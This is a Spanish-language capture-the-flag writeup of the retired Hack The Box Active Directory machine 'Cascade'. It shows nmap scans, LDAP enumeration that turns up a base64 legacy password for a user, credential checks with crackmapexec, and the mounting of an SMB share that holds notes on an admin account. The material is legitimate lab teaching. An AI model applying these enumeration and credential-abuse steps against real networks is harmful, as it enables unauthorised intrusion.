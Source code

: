 ```yaml
---
layout: post
title:  "Maquina Retirada Cascade AD de Hack The Box (Necesario VIP)"
description: En esta ocasion empezaremos con el Writeup de la maquina de HackTheBox llamada CASCADE AD
tags: HTB, LDAP, RPCCLIENT, ASREPRoast Attack, Maquinas Retiradas,
---
```


# Cascade - AD Path ~ Hack The Box

Realizamos el Primer escaneo con Nmap
```bash
$" nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -oG allports 10.10.10.182       "
``` 

Procedemos con el siguiente escaneo de Nmap

```bash
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-01-10 18:48:00Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49158/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: CASC-DC1; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2022-01-10T18:48:54
|_  start_date: 2022-01-10T14:55:16
```
Procedemos a enumerar los servicios tipicos encontrados como `SMB` y vemos que no tenemos recursos compartidos si proporcionar Contraseña
```bash
smbmap -H 10.10.10.182  
[+] IP: 10.10.10.182:445        Name: cascade.local
```
Procedemos a añadir al archivito `nano /etc/hosts` el `Dominio: cascade.local` 

Procedemos a listar con `Crackmapexec` informacion sobre el equipo que nos enfrentamos
```bash
crackmapexec smb 10.10.10.182                          
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)          
```

Procedemos a enumerar el servicio de `Ldap` atraves de uno de los scripts de `nmap`
```bash
nmap -n --script "ldap* and not brute" -oN ldapScan 10.10.10.182
```

Otra forma y la mas habitual es usando `ldapsearch`:
```bash
ldapsearch -x -h 10.10.10.182 -b 'DC=cascade,DC=local' 
```
Como vemos que se nos lista muchisima informacion procedemos a grepear por el `@ Dominio de la Maquina` para enumerar posibles usuarios a nivel del sistema.

```bash
ldapsearch -x -h 10.10.10.182 -b 'DC=cascade,DC=local' | grep "@cascade.local"

userPrincipalName: CascGuest@cascade.local
userPrincipalName: arksvc@cascade.local
userPrincipalName: s.smith@cascade.local
userPrincipalName: r.thompson@cascade.local
userPrincipalName: util@cascade.local
userPrincipalName: j.wakefield@cascade.local
userPrincipalName: s.hickson@cascade.local
userPrincipalName: j.goodhand@cascade.local
userPrincipalName: a.turnbull@cascade.local
userPrincipalName: e.crowe@cascade.local
userPrincipalName: b.hanson@cascade.local
userPrincipalName: d.burman@cascade.local
userPrincipalName: BackupSvc@cascade.local
userPrincipalName: j.allen@cascade.local
userPrincipalName: i.croft@cascade.local
```

Ahi tenemos unos potenciales usuarios a nivel de sistema para montarnos un diccionario y para intentar hacer un `ASREP-Roasting Attack`

Procedemos a intentar listar un poco de informacion para cada usuario atraves de `ldapsearch` grepeando por el dominio ` -A 20 `

```bash
ldapsearch -x -h 10.10.10.182 -b 'DC=cascade,DC=local' | grep "@cascade.local" -A 20
......
userPrincipalName: "r.thompson"@cascade.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=cascade,DC=local
dSCorePropagationData: 20200126183918.0Z
dSCorePropagationData: 20200119174753.0Z
dSCorePropagationData: 20200119174719.0Z
dSCorePropagationData: 20200119174508.0Z
dSCorePropagationData: 16010101000000.0Z
lastLogonTimestamp: 132863135972508376
msDS-SupportedEncryptionTypes: 0
"cascadeLegacyPwd:  "   --> Pwd ?¿ Password ?¿ 
......
```

Encontramos fijandonos con nuestro Ojo de Lince una cadena en base64 que podria ser una `Password` para el Usuario `r.thompson` 
```bash
echo "clk0bjVldmE=" | base64 -d                                                                                                 
"rY4n5eva"  --> Password 
```

Procedemos a chequear con crackmapexec la password para el user r.thompson
```bash
crackmapexec smb 10.10.10.182 -u r.thompson -p rY4n5eva                                                                                 
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\r.thompson:rY4n5eva
```

Chequeamos para ver si con `winrm` : 
```bash
crackmapexec winrm 10.10.10.182 -u r.thompson -p rY4n5eva                                                                         
WINRM       10.10.10.182    5985   CASC-DC1         [*] Windows 6.1 Build 7601 (name:CASC-DC1) (domain:cascade.local)
WINRM       10.10.10.182    5985   CASC-DC1         [*] http://10.10.10.182:5985/wsman
WINRM       10.10.10.182    5985   CASC-DC1         [-] cascade.local\r.thompson:rY4n5eva
```

Vemos que el usuario `r.thompson` no pertenece al grupo de `Remote Managment System`
Procedemos a listar Recursos compartidos para el usuario `r.thompson` a nivel de `SMB`

```bash
smbmap -H 10.10.10.182  -u r.thompson  -p rY4n5eva                                                      

[+] IP: 10.10.10.182:445        Name: cascade.local                                     
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        Audit$                                                  NO ACCESS
        C$                                                      NO ACCESS       Default share
        Data                                                    READ ONLY
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        print$                                                  READ ONLY       Printer Drivers
        SYSVOL                                                  READ ONLY       Logon server share
```

Vemos que tenemos los Permisos de lectura para `Data, NETLOGON, print$, SYSVOL` ... 
Usamos la tool `smbclient` para listar el Recurso en `Data`
```bash
smbclient //10.10.10.182/Data -U 'r.thompson%rY4n5eva'                                                                                                  
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Jan 27 04:27:34 2020
  ..                                  D        0  Mon Jan 27 04:27:34 2020
  Contractors                         D        0  Mon Jan 13 02:45:11 2020
  Finance                             D        0  Mon Jan 13 02:45:06 2020
  IT                                  D        0  Tue Jan 28 19:04:51 2020
  Production                          D        0  Mon Jan 13 02:45:18 2020
  Temps                               D        0  Mon Jan 13 02:45:15 2020
```

Encontramos diferentes Directorios .. asique procedemos a crearnos una montura en un directorio que vamos a crear llamado `mnt` para 
listar toda la informcion o data de manera mas comoda.

Creando la montura con `cifs -t` en el directorio `/mnt/` con `-o` le pasamos el nombre de usuario, la password, el dominio y le decimos con permisos de R y W (lectura y Escritura)  
```bash
mount -t cifs //10.10.10.182/Data /mnt/ -o username=r.thompson,password=rY4n5eva,domain=casscade.local,rw
```

Una vez montada la montura, procedemos a listar todo el contenido con el commando `TREE`:

```bash
tree /mnt                                                                                                                                                    

/mnt
├── Contractors
├── Finance
├── IT
│   ├── Email Archives
│   │   └── Meeting_Notes_June_2018.html
│   ├── LogonAudit
│   ├── Logs
│   │   ├── Ark AD Recycle Bin
│   │   │   └── ArkAdRecycleBin.log
│   │   └── DCs
│   │       └── dcdiag.log
│   └── Temp
│       ├── r.thompson
│       └── s.smith
│           └── VNC Install.reg
├── Production
└── Temps
```

Vemos que en el archivo `Meetin_Notes_June_2018_html` encontramos cierta informacion sensible
```bash
<p>-- We will be using a temporary account to
perform all tasks related to the network migration and this account will be deleted at the end of
2018 once the migration is complete. This will allow us to identify actions
related to the migration in security logs etc. "Username is TempAdmin (password is the same as the normal admin account password)." </p>
```

